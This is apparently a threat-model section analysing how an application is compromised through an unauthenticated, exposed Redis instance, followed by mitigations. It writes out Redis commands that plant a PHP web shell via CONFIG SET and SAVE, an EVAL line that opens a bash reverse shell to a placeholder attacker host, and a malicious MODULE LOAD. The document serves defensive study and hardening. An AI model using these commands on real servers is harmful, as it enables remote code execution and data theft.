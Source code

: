 ### 4. Deep Analysis of Attack Tree Path: Compromise Application via Redis

**Critical Node:** 1. Compromise Application via Redis

*   **Attack Vector:** This is the root goal. All subsequent nodes and paths contribute to achieving this goal.
*   **Threat:** Successful exploitation of Redis vulnerabilities or misconfigurations leading to compromise of the application's data, functionality, or availability.

**Detailed Breakdown of Attack Paths:**

To achieve the root goal of "Compromise Application via Redis," an attacker can pursue several sub-paths, exploiting different aspects of Redis and its integration with the application. We will analyze the following potential attack vectors:

#### 4.1. Exploit Redis Misconfigurations

This is often the most common and easily exploitable path to compromise an application via Redis. Misconfigurations can expose Redis to unauthorized access and abuse.

*   **4.1.1. Unauthenticated Access to Redis (Open Port)**

    *   **Attack Vector Description:** Redis is exposed on a network interface without any authentication mechanism (no `requirepass` configured or firewall restrictions). This allows anyone who can reach the Redis port (typically 6379) to connect and execute commands.
    *   **Technical Details:**
        *   **Prerequisites:** Redis server is running and listening on a publicly accessible IP address or within a network segment accessible to the attacker. No `requirepass` directive is set in `redis.conf`, or the firewall is misconfigured to allow external access to port 6379.
        *   **Technique:** Attacker uses `redis-cli` or a similar tool to connect to the exposed Redis instance. Once connected, they can execute any Redis command.
        *   **Example Commands for Compromise:**
            *   `CONFIG SET dir /path/to/application/writable/directory/` (Sets the working directory for future file operations)
            *   `CONFIG SET dbfilename shell.php` (Sets the filename for database persistence to a PHP file)
            *   `SAVE` (Triggers Redis to save the database to the specified file, effectively writing a PHP shell to the application's writable directory)
            *   `EVAL "os.execute('bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1')" 0` (If `EVAL` is enabled and not restricted, attempts to execute a reverse shell - **Note:** `EVAL` is generally safer than `MODULE LOAD` but still risky if misused).
            *   `MODULE LOAD /path/to/malicious.so` (If `MODULE LOAD` is enabled, loads a malicious Redis module to execute arbitrary code - **Note:** `MODULE LOAD` is highly dangerous and should be disabled in production unless absolutely necessary and carefully controlled).
        *   **Potential Impact:** Full server compromise, arbitrary code execution on the server hosting Redis and potentially the application if shared resources are accessible, data breach (reading sensitive data from Redis), data manipulation, denial of service (e.g., `FLUSHALL`).
        *   **Mitigations:**
            *   **Enable Authentication:**  **Strongly recommend setting `requirepass` in `redis.conf` with a strong, randomly generated password.**
            *   **Network Segmentation and Firewalls:**  Restrict network access to Redis. Redis should ideally only be accessible from the application servers that need to connect to it. Use firewalls (e.g., iptables, cloud security groups) to block external access to port 6379 (and other Redis ports if configured differently).
            *   **Bind to Specific Interface:** Configure `bind` in `redis.conf` to listen only on the loopback interface (`127.0.0.1`) or specific internal network interfaces, not `0.0.0.0` (all interfaces).
